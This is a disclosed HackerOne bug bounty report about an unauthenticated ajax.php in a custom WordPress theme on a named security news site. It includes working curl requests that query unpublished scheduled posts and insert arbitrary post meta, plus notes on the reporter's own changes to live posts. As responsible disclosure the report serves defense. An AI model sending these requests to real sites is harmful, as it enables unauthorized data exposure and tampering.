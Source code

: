 # Querying private posts and changing post meta

## Report Details
- **Report ID**: 157412
- **URL**: https://hackerone.com/reports/157412
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-08-07T12:53:59.669Z
- **Disclosed**: 2016-08-09T07:15:55.929Z

## Reporter
- **Username**: sameoldstory
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: secnews

## Vulnerability Information
Summary
---
Unauthenticated user can run arbitrary post queries and insert arbitrary numeric post meta via vulnerable `/wp-content/themes/SecNews-NewCustom/functions/ajax.php` file.

I'm including two exploits in one report because the fix for both is the same, i.e. delete `ajax.php`.


Run arbitrary post queries
---

Consider this request:
```
curl https://www.secnews.gr/wp-content/themes/SecNews-NewCustom/functions/ajax.php \
--data 'action=sort&loop=main loop&currentquery[key1]=value1&currentquery[key2]=value2'
```

It executes a [WP_Query](https://codex.wordpress.org/Class_Reference/WP_Query) against the database with `array('key1' => 'value1', 'key2' => 'value2')` as the argument.

Attacker can exploit this, for example, to see posts that are scheduled to be published in the future, i.e. posts that are not public yet:

```
curl https://www.secnews.gr/wp-content/themes/SecNews-NewCustom/functions/ajax.php \
--data 'action=sort&loop=main loop&currentquery[post_status]=future'
```

For example "Δείτε τα πιο Geeky Raspberry Pi Smartwatches!" by Bl4ckPr0xyon will be published on 15.08.2016 at 13:21, i.e. in 8 days from today.


Insert arbitrary numeric post meta
---

Consider this request:
```
curl https://www.secnews.gr/wp-content/themes/SecNews-NewCustom/functions/ajax.php \
--data 'id=100000&action=rate&meta=test&rating=42'
```

The request parameters get passed to [add_post_meta()](https://developer.wordpress.org/reference/functions/add_post_meta/) function, which inserts a row to the post's meta with an arbitrary key and arbitrary value. The value can only be a number though.

```
mysql> select * from wp_postmeta where meta_key = "test";
+---------+----------+------------+
| post_id | meta_key | meta_value |
+---------+----------+------------+
|  100000 | test     | 42         |
+---------+----------+------------+
```

This can be used by attacker to alter behavior of plugins and themes. For example:
 * I removed background image from https://www.secnews.gr/100000 by setting `_bg_color_override` to `1` in the post meta.
 * I set shares count to `-56994` at https://www.secnews.gr/100000 by changing `mashsb_shares` and `mashsb_timestamp` meta of the post.

Potentially this can be used to:
 * Change booleans, counters and timestamps in other plugins leading to information disclosure or website defacement.
 * Unnoticeably fill the database with garbage data until the disk space is full.

Affected posts
---

While looking for vulnerabilities I changed some meta for posts 95513, 100000 and 104030. You can clean it up with something like this:
`DELETE * FROM wp_postmeta WHERE post_id IN (95513, 100000, 104030) AND meta_key IN ('_bg_color_override', 'mashsb_shares', 'mashsb_timestamp');`

## Attachments
No attachments
